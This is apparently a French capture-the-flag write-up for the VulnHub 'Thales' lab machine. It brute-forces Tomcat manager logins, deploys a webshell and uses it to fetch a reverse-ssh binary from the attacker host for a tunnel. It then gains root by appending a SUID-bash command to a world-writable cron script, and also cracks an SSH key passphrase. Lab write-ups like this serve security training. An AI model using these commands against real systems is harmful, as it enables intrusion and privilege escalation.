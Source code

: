 # Solution du CTF Thales de VulnHub

[Ce CTF]([Thales: 1 ~ VulnHub](https://www.vulnhub.com/entry/thales-1,749/)) proposé sur VulnHub a été créé par [machineboy414](https://twitter.com/machineboy141) qui est déjà l'auteur de la série de CTFs KB-VULN pour lesquels j'ai déjà écrit quelques writeups.

On lance notre scanner de ports favoris et... oh ! un Tomcat !

```
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.39
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c19ab9172a571d86d751d8f65dfe132 (RSA)
|   256 906ea0eed5296cb97b05dbc6825c19bf (ECDSA)
|_  256 544d7be8f97f21343eed0fd9fe93bf00 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.52
|_http-title: Apache Tomcat/9.0.52
|_http-favicon: Apache Tomcat
MAC Address: 08:00:27:72:5B:09 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

J'ai beau avoir croisé quelques Tomcat dans les CTFs il fallait que je retrouve la liste d'identifiants habituels pour cette application.

Les différents liens sur le site mènent en effet presque tous à une demande d'authentification. Notemment si on tente d'accèder à `/manager`.

J'ai recherché un outil de brute force pour Tomcat mais j'aurais très bien avoir recours sau classique Hydra. J'ai finalement jeté mon dévolu sur [ce petit script Python]([GitHub - b33lz3bub-1/Tomcat-Manager-Bruteforce: This script will bruteforce the credential of tomcat manager or host-manager](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)) qui n'a besoin que de deux dépendances (`requests` et `termcolor`).

Je lui ait fournit en entrée deux wordlists provenant de fuzzdb, l'une pour les noms d'utilisateurs et l'autre pour les mots de passe.

```bash
$ python mgr_brute.py -U http://192.168.56.39:8080/ -u tomcat_mgr_default_users.txt -p tomcat_mgr_default_pass.txt -P /manager

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'role1'
```

Une fois connecté je remarque qu'il y a une entrée */shell/* dans les applis déployées. La page n'affichant que du vide j'ai tenté de débusquer un éventuel paramètre valide pour le script:

```bash
$ ffuf -u "http://192.168.56.39:8080/shell/?FUZZ=id" -w common_query_parameter_names.txt -fs 6
```

Cela n'a malheureusement mené nul part. J'aurais aimé pouvoir télécharger le fichier war correspondant au déploiement depuis le Tomcat mais c'est visiblement impossible.

J'ai donc du employer la classique technique de déploiement d'une archive war que j'ai trouvé pour l'occasion [sur ce projet github](https://github.com/p0dalirius/Tomcat-webshell-application).

Une fois déployé on utilise la commande fournie en exemple:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

Je rappatrie ensuite un reverse-ssh sur la machine:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=wget -O /opt/tomcat/reverse-ssh http://192.168.56.1:8000/reverse-sshx64"
```

Je lance d'abord reverse-ssh en écoute sur ma machine:

```bash
./reverse-sshx64 -l -p 9999 -v
```

puis je lance le tunnel depuis la VM:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=/opt/tomcat/reverse-ssh -p 9999 192.168.56.1"
```

Le tunnel est bien établi :

```
2022/11/03 17:04:47 Starting ssh server on :9999
2022/11/03 17:04:47 Success: listening on [::]:9999
2022/11/03 17:05:05 Successful authentication with password from reverse@192.168.56.39:54578
2022/11/03 17:05:05 Attempt to bind at 127.0.0.1:8888 granted
2022/11/03 17:05:05 New connection from 192.168.56.39:54578: tomcat on miletus reachable via 127.0.0.1:8888
```

Je n'ai plus qu'à me connecter au port forwardé localement:

```bash
$ ssh -p 8888 127.0.0.1
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
RSA key fingerprint is SHA256:ouF/tUjdBRFlHLkk1CgdY/xcer/6epVHyR9k0gDiNeI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (RSA) to the list of known hosts.
sirius@127.0.0.1's password: 
tomcat@miletus:/$ id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
```

Je fouille direct dans le dossier `/home` et je vois des éléments intéressants:

```bash
tomcat@miletus:/$ ls /home/thales/ -al
total 52
drwxr-xr-x 6 thales thales 4096 Oct 14  2021 .
drwxr-xr-x 3 root   root   4096 Aug 15  2021 ..
-rw------- 1 thales thales  457 Oct 14  2021 .bash_history
-rw-r--r-- 1 thales thales  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 thales thales 3771 Apr  4  2018 .bashrc
drwx------ 2 thales thales 4096 Aug 15  2021 .cache
drwx------ 3 thales thales 4096 Aug 15  2021 .gnupg
drwxrwxr-x 3 thales thales 4096 Aug 15  2021 .local
-rw-r--r-- 1 thales thales  807 Apr  4  2018 .profile
-rw-r--r-- 1 root   root     66 Aug 15  2021 .selected_editor
drwxrwxrwx 2 thales thales 4096 Aug 16  2021 .ssh
-rw-r--r-- 1 thales thales    0 Oct 14  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    107 Oct 14  2021 notes.txt
-rw------- 1 thales thales   33 Aug 15  2021 user.txt
```

Le fichier *notes.txt* contient le message suivant :

> I prepared a backup script for you.
> The script is in this directory "/usr/local/bin/backup.sh".
> Good Luck.

On peut lire la clé privée SSH de l'utilisateur mais pas écrire à l'intérieur (SSH aurait sans doute gueulé sinon).

Cette clé privée est toutefois protégée par une passphrase donc laissons la de côté.

On voit que le script cité appartient à root mais est world-writable :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /usr/local/bin/backup.sh
-rwxrwxrwx 1 root root 612 Oct 14  2021 /usr/local/bin/backup.sh
```

Il créé des archives compressées du dossier /opt/tomcat :

```bash
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

Et visiblement le script est exécuté par root :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /var/backups
total 36508
drwxr-xr-x  2 root root     4096 Nov  3 14:56 .
drwxr-xr-x 13 root root     4096 Aug  6  2020 ..
-rw-r--r--  1 root root    33750 Oct 14  2021 apt.extended_states.0
-rw-r--r--  1 root root     3614 Aug 15  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root 11573824 Aug 16  2021 miletus-Monday.tgz
-rw-r--r--  1 root root 11572776 Aug 15  2021 miletus-Sunday.tgz
-rw-r--r--  1 root root 14182418 Nov  3 18:10 miletus-Thursday.tgz
```

La date du dernier fichier semble changer toutes les 5 minutes.

Je rajoute deux petites commandes en fin de script :

```bash
echo "cp /bin/bash /tmp/; chmod 4755 /tmp/bash" >> /usr/local/bin/backup.sh
```

On obtient notre shell attendu rapidement :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /tmp/bash
-rwsr-xr-x 1 root root 1113504 Nov  3 18:20 /tmp/bash
tomcat@miletus:/home/thales/.ssh$ /tmp/bash -p
bash-4.4# id
uid=999(tomcat) gid=999(tomcat) euid=0(root) groups=999(tomcat)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
3a1c85bebf8833b0ecae900fb8598b17
bash-4.4# cat /home/thales/user.txt
a837c0b5d2a8a07225fd9905f5a0e9c4
```

## Alternative happy end

On peut finalement casser la passphrase de la clé SSH :

```
./john --wordlist=rockyou.txt  ssh_key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (/tmp/thales.key)     
1g 0:00:00:00 DONE (2022-11-03 18:24) 1.020g/s 2918Kp/s 2918Kc/s 2918KC/s vodka121..vodka&l
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La connexion avec la clé échoue (sans doute à cause des mauvaises permissions) mais depuis le compte *tomcat* on peut *su* vers *thales* avec le mot de passe.

On ne peut pas utiliser sudo depuis cet utilisateur. La ligne qui nous aurait aidé a été commentée :

```
# Allow members of group sudo to execute any command
#sudo   ALL=(ALL:ALL) ALL
```

L'utilisateur fait toutefois partie du groupe lxd donc il doit être possible de faire une escalade de privlège par là.

En conclusion un CTF simple mais plutôt réaliste.

*Publié le 3 novembre 2022*
